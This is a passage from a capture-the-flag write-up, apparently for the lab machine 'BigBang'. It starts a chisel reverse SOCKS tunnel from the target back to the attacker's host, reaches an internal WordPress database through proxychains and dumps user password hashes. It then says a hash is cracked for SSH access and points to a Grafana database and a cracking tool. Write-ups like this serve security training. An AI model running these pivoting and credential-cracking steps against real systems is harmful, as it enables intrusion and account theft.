 ```bash
# on my machine
chisel server -p 9999 --socks5 --reverse &
# on the target machine
./chisel64 client 10.10.14.46:9999 R:socks &
```
Now we can access to the db 

```bash
# 'wp_password' as pass
proxychains -q mysql -h 172.17.0.1 -u 'wp_user' -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 690
Server version: 8.0.32 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
```console
show databases;

use wordpress;

MySQL [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url                | user_registered     | user_activation_key | user_status | display_name    |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
|  1 | root       | $P$B...Cj1 | root          | root@bigbang.htb     | http://blog.bigbang.htb | 2024-05-31 13:06:58 |                     |           0 | root            |
|  3 | shawking   | $P$...oK./ | shawking      | shawking@bigbang.htb |                         | 2024-06-01 10:39:55 |                     |           0 | Stephen Hawking |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
```
Now we can crack the ```shawking``` password and just ssh

### Grafana DB

Enumerate and find a new db

```bash
shawking@bigbang:/opt/data$ ls -la
total 1008
drwxr-xr-x 6 root root    4096 Jan 27 19:31 .
drwxr-xr-x 4 root root    4096 Jun  5  2024 ..
drwxr--r-- 2 root root    4096 Jun  5  2024 csv
-rw-r--r-- 1 root root 1003520 Jan 27 19:31 grafana.db
drwxr--r-- 2 root root    4096 Jun  5  2024 pdf
drwxr-xr-x 2 root root    4096 Jun  5  2024 plugins
drwxr--r-- 2 root root    4096 Jun  5  2024 png
```
Download it and crack it by following [THIS GITHUB](https://github.com/iamaldi/grafana2hashcat)

